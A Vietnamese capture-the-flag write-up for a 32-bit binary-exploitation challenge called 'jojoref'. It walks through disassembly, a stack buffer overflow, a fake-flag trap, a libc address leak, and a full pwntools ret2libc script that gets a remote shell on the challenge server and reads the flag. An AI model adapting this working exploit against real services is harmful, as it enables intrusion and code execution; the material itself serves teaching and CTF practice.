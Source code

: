 **PZ**
---
Binary Exploitation

Description:
---
> Just a JoJo reference.

Solution:
---
Bài này thì khó hơn bài trước :joy: Chạy thử tiếp nào :point_down:

```bash
root@kali:~# ./jojoref
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: yes
[You said: yes]
Pwn: Oh ho... then come as close as you want
You: ok girl
root@kali:~#
```

2 chỗ nhập khó nhiều 1 chỗ nhập chứ :cry: Disassembly ra thôi. Con này stripped rồi nên một là dùng `objdump` để xem code, hai là dùng tool ngoài.
> Disassembly bằng Radare2, IDA hay Binary Ninja... nhé. Nhiều tool lắm.
```asm
...

add     esp, 10h
mov     eax, ds:(stdout_ptr - 804A000h)[ebx]
mov     eax, [eax]
sub     esp, 8
push    0               ; buf
push    eax             ; stream
call    _setbuf
add     esp, 10h
call    sub_804872B
call    sub_8048676; <---| Chỗ này nhé, còn lại thì bình thường rồi.
mov     eax, 0
lea     esp, [ebp-8]
pop     ecx
pop     ebx
pop     ebp
lea     esp, [ecx-4]
retn
```

Xem hàm `sub_8048676` nào:
```asm
.text:08048676 buf             = byte ptr -1Ch
.text:08048676 var_C           = dword ptr -0Ch
.text:08048676 var_4           = dword ptr -4

...

.text:08048688                 mov     eax, offset unk_804A040; <--- Nhớ địa chỉ này không ??
.text:0804868E                 mov     eax, [eax]
.text:08048690                 mov     [ebp+var_C], eax; <--- Lấy số random lưu vào [ebp+var_C]
.text:08048693                 sub     esp, 0Ch
.text:08048696                 lea     eax, (aPwnOhYouReAppr - 804A000h)[ebx] ; "Pwn: Oh? You're approaching me? Instead"...
.text:0804869C                 push    eax             ; s
.text:0804869D                 call    _puts
.text:080486A2                 add     esp, 10h
.text:080486A5                 sub     esp, 0Ch
.text:080486A8                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:080486AE                 push    eax             ; format
.text:080486AF                 call    _printf
.text:080486B4                 add     esp, 10h
.text:080486B7                 sub     esp, 8
.text:080486BA                 push    30h             ; nbytes <--- Lại cho nhập 0x30 bytes
.text:080486BC                 lea     eax, [ebp+buf]  ;        <--- Trong khi buffer chỉ có 0x1C bytes
.text:080486BF                 push    eax             ; buf
.text:080486C0                 call    sub_8048612     ;  <--- Hàm nhập và thay kí tự '\n' ở cuối chuỗi thành '\0'
.text:080486C5                 add     esp, 10h
.text:080486C8                 mov     eax, offset unk_804A040
.text:080486CE                 mov     eax, [eax]
.text:080486D0                 cmp     [ebp+var_C], eax ; <--- Kiểm tra lại xem số random lưu ở [ebp+var_C] có bị thay đổi không
.text:080486D3                 jz      short loc_80486DA  
.text:080486D5                 call    sub_80485B6  ; <--- Nếu đổi thì gọi hàm này

...
```
Xem nếu số random bị thay đổi thì ra cái gì nhé:
```asm
...
.text:080485C8                 sub     esp, 8
.text:080485CB                 push    0               ; oflag
.text:080485CD                 lea     eax, (aFlag - 804A000h)[ebx] ; "flag"
.text:080485D3                 push    eax             ; file
.text:080485D4                 call    _open  ; <--- Mở ra flag
.text:080485D9                 add     esp, 10h
.text:080485DC                 mov     [ebp+fd], eax
.text:080485DF                 cmp     [ebp+fd], 0
.text:080485E3                 js      short loc_8048608
.text:080485E5                 sub     esp, 4
.text:080485E8                 push    27h             ; nbytes
.text:080485EA                 lea     eax, [ebp+buf]
.text:080485ED                 push    eax             ; buf
.text:080485EE                 push    [ebp+fd]        ; fd
.text:080485F1                 call    _read  ; <--- Đọc ra flag
.text:080485F6                 add     esp, 10h
.text:080485F9                 sub     esp, 0Ch
.text:080485FC                 lea     eax, [ebp+buf]
.text:080485FF                 push    eax             ; s
.text:08048600                 call    _puts  ; <--- In ra flag, ez 15' gg :))
.text:08048605                 add     esp, 10h
...
```
Có vẻ như chỉ cần ghi đè qua `[ebp+var_C]` là ra flag. Ok đập phát chết luôn:
```bash
root@kali:~# python -c 'print "A"*18' | nc 3.91.78.13 10001
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: PTITCTF{ Well yes , but actually no. }   # <--- Bị lừa rồi ... 

root@kali:~# 
```

Thôi lại xem tiếp nếu không gọi `sub_80485B6` thì `loc_80486DA` có cái gì :sweat_smile: :
```asm
...
.text:080486DA                 sub     esp, 8
.text:080486DD                 lea     eax, [ebp+buf]
.text:080486E0                 push    eax
.text:080486E1                 lea     eax, (aYouSaidS - 804A000h)[ebx] ; "[You said: %s]\n"
.text:080486E7                 push    eax             ; format
.text:080486E8                 call    _printf
.text:080486ED                 add     esp, 10h
.text:080486F0                 sub     esp, 0Ch
.text:080486F3                 lea     eax, (aPwnOhHoThenCom - 804A000h)[ebx] ; "Pwn: Oh ho... then come as close as you"...
.text:080486F9                 push    eax             ; s
.text:080486FA                 call    _puts
.text:080486FF                 add     esp, 10h
.text:08048702                 sub     esp, 0Ch
.text:08048705                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:0804870B                 push    eax             ; format
.text:0804870C                 call    _printf
.text:08048711                 add     esp, 10h
.text:08048714                 sub     esp, 8
.text:08048717                 push    30h             ; nbytes
.text:08048719                 lea     eax, [ebp+buf]
.text:0804871C                 push    eax             ; buf
.text:0804871D                 call    sub_8048612 ; <--- Lại hàm nhập, giống như đoạn code trước khi jmp
.text:08048722                 add     esp, 10h
.text:08048725                 nop
.text:08048726                 mov     ebx, [ebp+var_4]
.text:08048729                 leave
.text:0804872A                 retn
```
Lần thứ 2 nhập thì không check số random, có lẽ nên khai thác vào chỗ này.

Bài này thì người ta cho sẵn chuỗi "/bin/sh" ở `0x8048890` rồi nên 
gợi ý là sẽ return về system("/bin/sh"). Cơ mà lại không cho địa chỉ của sytem(), và server bật ASLR nên cần phải tính thông qua địa chỉ của hàm nào đó đã cho.

Để ý trong suốt quá trình hàm sub_8048676 này làm việc không thấy đả động gì đến vị trí `[ebp-8]`, có gì đó mờ ám chăng ?
```asm
Breakpoint 1, 0x0804867a in ?? ()
gdb-peda$ x/x $ebp-8
0xffffd370:	0xf7fadd80
gdb-peda$ info proc map
process 1764
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /root/jojoref
	 0x8049000  0x804a000     0x1000        0x0 /root/jojoref
	 0x804a000  0x804b000     0x1000     0x1000 /root/jojoref
	0xf7dd3000 0xf7dec000    0x19000        0x0 /usr/lib32/libc-2.28.so # <--- địa chỉ cơ sở libc nhé
	0xf7dec000 0xf7f3a000   0x14e000    0x19000 /usr/lib32/libc-2.28.so
	0xf7f3a000 0xf7faa000    0x70000   0x167000 /usr/lib32/libc-2.28.so
	0xf7faa000 0xf7fab000     0x1000   0x1d7000 /usr/lib32/libc-2.28.so
  ...
  
gdb-peda$ p/x 0xf7fadd80-0xf7dd3000
$1 = 0x1dad80
gdb-peda$ quit
root@kali:~# readelf -s /usr/lib32/libc-2.28.so | grep 1dad80
   905: 001dad80   152 OBJECT  GLOBAL DEFAULT   31 _IO_2_1_stdout_@@GLIBC_2.1 # <--- :))
root@kali:~#
```
Rồi thế là xong, chạy nhiều lần thì nó vẫn ra hàm đấy thôi. Còn lưu ý nữa là con này biên dịch bằng `GCC 7.3.0` cho nên việc tính ra system có thể bị sai,
vì kali của mình đang chạy `GCC 8.3.0`, chuyển qua ubuntu cho chắc:
```bash
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep stdout
   783: 001d8ea0    80 OBJECT  GLOBAL DEFAULT   34 _IO_stdout_@@GLIBC_2.0
   895: 001d8d80   152 OBJECT  GLOBAL DEFAULT   34 _IO_2_1_stdout_@@GLIBC_2.1 # <--- Đây
  1168: 001d8e1c     4 OBJECT  GLOBAL DEFAULT   34 stdout@@GLIBC_2.0
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   254: 00129640   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d200    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d200    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0 # <--- Và đây
zeltrax@z-pc:~$
```
Bài này phải xử lí run-time để leak ra địa chỉ `[ebp-8]` nên phải code thôi:
```python
from pwn import *

#p = process("./jojoref")
p = remote('3.91.78.13', 10001)
s1 = "A"*16
print p.recvline()
print p.recv(5)

p.send(s1)

print p.recv(11+16)
urandom = p.recv(4)
ebp_8 = p.recv(4)

print "random: %s" % hex(u32(urandom))
print "$ebp-0x8: %s" % hex(u32(ebp_8))
system = u32(ebp_8)-(0x1d8d80-0x3d200)
print "system: %s" % hex(system)

s2 = "A"*32 + p32(system) + "JUNK" + p32(0x08048890)
print p.recvline()
print p.recv(5)

p.sendline(s2)
p.interactive()
```
Nhớ flag fake không? Phải là flag2 cơ :grin:
```bash
[+] Opening connection to 3.91.78.13 on port 10001: Done
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?

You: 
[You said: AAAAAAAAAAAAAAAA
random: 0xc09dc5bd
$ebp-0x8: 0xf7ecdd80
system: 0xf7d32200
]

Pwn: 
[*] Switching to interactive mode
Oh ho... then come as close as you want
You: $ cat flag2
PTITCTF{w3ll_y3s_0utst4nd1ng_m0v3_but_1t's_ill3g4l}
$ 
```
